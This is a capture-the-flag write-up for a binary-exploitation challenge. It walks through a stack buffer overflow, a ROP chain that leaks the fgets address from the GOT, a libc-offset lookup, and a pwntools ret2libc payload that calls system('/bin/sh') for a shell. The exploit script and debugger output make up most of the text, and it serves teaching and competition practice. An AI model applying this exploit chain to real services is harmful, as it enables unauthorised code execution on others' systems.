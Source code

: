 # C is super easy and secure 2

## Patching the Binary to use it with libc of the server

You need a tool like [pwninit](https://github.com/io12/pwninit) to locally link the libc and the linker .so of the server.

You can do this with: `pwninit --bin program.elf --ld ld-linux-x86-64.so.2 --libc libc.so.6`

## Find Offset to cause overflow

First of all, you can check for the offset pattern that crashes the program (because of an overlow).

I like to use `pwndbg` for this:

```bash
$ pwndbg program.elf_patched 
# Launches Pwndbg (GDB with powerful enhancements) and loads the binary `program.elf_patched`.

pwndbg: loaded 179 pwndbg commands and 47 shell commands...
# Displays Pwndbg's initialization info; confirms availability of useful commands and functions.

Reading symbols from program.elf_patched...
# GDB attempts to read debugging symbols. These would provide useful info like variable names and line numbers.

pwndbg> cyclic 64
# Generates a 64-byte cyclic pattern (unique sequence) for use in detecting buffer overflow offsets.

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# The actual generated pattern that will be input into the program.

pwndbg> r
# Runs the binary under GDB.

Please enter a username: HackTWK
Please enter a password: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# User provides input (name + cyclic pattern) to trigger potential buffer overflow.

Program received signal SIGSEGV, Segmentation fault.
# The program crashes due to a segmentation fault — often indicates control over instruction pointer (EIP/RIP).

0x000000000040066d in main ()
# Crash occurred inside `main` at offset 0x40066d.

RBP  0x6161616161616167 ('gaaaaaaa')
# The base pointer (RBP) has been overwritten with part of the cyclic pattern — suggests stack buffer overflow.

RIP  0x40066d (main+434) ◂— ret 
# The instruction pointer (RIP) has not yet been overwritten; the crash happened on a return instruction.

───────────────────────────────────────────────────────────────────────────────────────────
rsp 0x7fffffffd3b8 ◂— 'haaaaaaa'
# Stack pointer (RSP) is pointing to part of the cyclic input — confirms overflow reached the stack.

pwndbg> cyclic -l 0x6161616161616168
# This command checks where in the cyclic pattern the value 0x6161616161616168 ('haaaaaaa') appears.

Found at offset 56
# Confirms that the crash occurred 56 bytes into the cyclic pattern — key to determining correct buffer size for exploit.
```

Now we know that the buffer is 56 bytes large.

## Find GOT Adress table to find libc version

In `pwndbg` you can just type `got` and it will print something like:

```bash
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /drives/f/git/HackTWK/Challenges/reversing/c-is-easy-and-secure-2/program.elf_patched:
GOT protection: Partial RELRO | Found 6 GOT entries passing the filter
[0x403000] puts@GLIBC_2.2.5 -> 0x7ffff7dfc600 (puts) ◂— endbr64 
[0x403008] printf@GLIBC_2.2.5 -> 0x7ffff7dd4a80 (printf) ◂— endbr64 
[0x403010] strcspn@GLIBC_2.2.5 -> 0x7ffff7f04c40 (__strcspn_sse42) ◂— endbr64 
[0x403018] fgets@GLIBC_2.2.5 -> 0x7ffff7dfa2e0 (fgets) ◂— endbr64 
[0x403020] gets@GLIBC_2.2.5 -> 0x7ffff7dfb860 (gets) ◂— endbr64 
[0x403028] setvbuf@GLIBC_2.2.5 -> 0x7ffff7dfcea0 (setvbuf) ◂— endbr64 
```

The `0x7ffff7dfc600` addresses are only valid at the current runtime and need to be extracted using a ROP Chain.

## Crafting the address leaking

I use `ropper` to search for the assembly instructions of the `ret` and `pop rdi; ret` instance with `ropper --file ./program.elf_patched --search "ret"`.

This will give me somethign like `0x0000000000400356: ret;`

You also could use `ROPgadget --binary program.elf_patched | grep ret`, pwngdb or pwntools right away to find this.

We also need the "normal" address of the `pop rdi; ret` with e.g. `ropper --file ./program.elf_patched --search "pop rdi"`

`0x00000000004004b6 : pop rdi ; ret`

We also need the `puts` address from the GOT Table. You can also retrive those values from pwntools with this code:

```python
got_puts_address = p64(binary.got.puts)
got_fgets_address = p64(binary.got.fgets)
```

We need to be careful when crafting the payload. We first need to cause a buffer overflow and than leak the address. We also need to keep an eye on the padding, thats why I included a `ret`:

```python
payload = b"A"*56
payload += ret
payload += pop_rdi_ret + got_fgets_address + plt_puts_address
payload += ret + main_address
```

After the leaking we don't want the programm to crash, because the addresses would change, so we simply call main again.

### Leaking the address

```python
from pwn import *

context.terminal = ["konsole", "-e"]
context.binary = binary = elf = ELF("./program.elf_patched")

p = process()

# gdb.attach(p)

pop_rdi_ret = p64(0x00000000004004b6)
ret = p64(0x0000000000400356)

main_address = p64(binary.symbols.main)

got_puts_address = p64(binary.got.puts) # this is only the local address of the got table
got_fgets_address = p64(binary.got.fgets)
got_printf_address = p64(binary.got.printf)


# print("got puts address: {}".format(hex(binary.got.puts)))
# print("got fgets address: {}".format(hex(binary.got.fgets)))
# print("got printf address: {}".format(hex(binary.got.printf)))

plt_puts_address = p64(binary.plt.puts)
plt_fgets_address = p64(binary.plt.fgets)
plt_printf_address = p64(binary.plt.printf)

# print("plt puts address: {}".format(hex(binary.plt.puts)))
# print("plt fgets address: {}".format(hex(binary.plt.fgets)))
# print("plt printf address: {}".format(hex(binary.plt.printf)))


payload = b"A"*56
payload += ret
payload += pop_rdi_ret + got_fgets_address + plt_puts_address
payload += ret + main_address


p.recvuntil(b": ")
p.sendline(b"HackTWK")
p.recvuntil(b"password: ")
p.sendline(payload)
output = p.recvuntil(b"username: ")
print(output)

# Split output by newlines
lines = output.split(b'\n')

# Find all possible 6-byte leaks
leaks = [line for line in lines if len(line) == 6]

fgets_leak = u64(leaks[0].ljust(8, b'\x00'))

print(f"Leaked fgets: {hex(fgets_leak)}")

pause()
```

## Getting to the symbol address you want

With parts of the GOT Table and the leaked address of a symbol you can "guess" the addresses of the libc symbols/functions that are relevant to get e.g. a RCE.
To figure it out go to one of the websites when searching for "lib c database search". I'll use [this](https://libc.blukat.me/).

You need to put in the values you got from the GOT table to find the other addresses.

![showcase](./image.png)

In this image are multiple things to consider:

1. Put the address values of the leaked addresses from the GOT table in the form (you can only really need the last few bytes so `0x7ffff7dd4a80` becomes just `4a80`)
2. Select the libc version. This might be a bit annoying, since you might try multiple times with different versions
3. Select the symbol you want to leak, so the address offsets are generated automatically

This will result in those lines of code:

```python
str_bin_sh = p64(fgets_leak + 0x1592f8)
system_address = p64(fgets_leak - 0x2e610)
```

### Getting the RCE

With the symbols `str_bin_sh` and `system` we can basically call a function through a buffer overlow that is acting as `system("/bin/sh")` and giving us a RCE.

Since we are on in main again, we need to go to the place where we can cause the buffer overflow and than send out payload.

```python
p.sendline(b"HackTWK")
output = p.recvuntil(b": ")
print(output)

# payload = b"abcdefghijklmnopqrstuvwxyz123456" + b"A"*24
payload = b"A"*56
payload += ret
payload += pop_rdi_ret + p64(fgets_leak + 0x1592f8) # str_bin_sh
payload += p64(fgets_leak - 0x2e610) # system

# will be a call to: system("/bin/sh")

p.sendline(payload)

p.interactive()
```

After that, we will get RCE.
